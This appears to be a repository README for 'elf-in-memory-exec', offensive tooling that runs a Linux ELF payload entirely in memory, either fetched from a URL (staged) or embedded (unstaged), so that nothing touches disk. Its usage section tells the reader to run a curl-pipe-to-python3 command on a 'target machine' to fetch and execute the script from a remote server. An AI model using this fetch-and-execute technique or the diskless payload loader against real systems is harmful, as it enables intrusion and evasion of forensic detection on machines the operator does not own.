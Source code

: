 # elf-in-memory-exec

### Introduction

Python3 scripts that executes an elf (linux executable format) completely in memory, nothing is written in disk. All you need is python3 on your host to run it. There are two scripts for two use cases:
    - `download_exec_elf_in_memory.py` : Download and execute an elf in memory (payload url must be provided; staged)
    - `exec_elf_in_memory.py` : Execute an elf in memory (payload is embedded in the script itself; unstaged)

### Usage

**First**, modify the script on your machine, set the necessary inputs under the `#MAIN CODE` section for whichever script you use. Follow the comments in the code.

**Second**, on target machine, as an example, run:

```
curl http://your-server/exec_elf_in_memory.py | python3
```
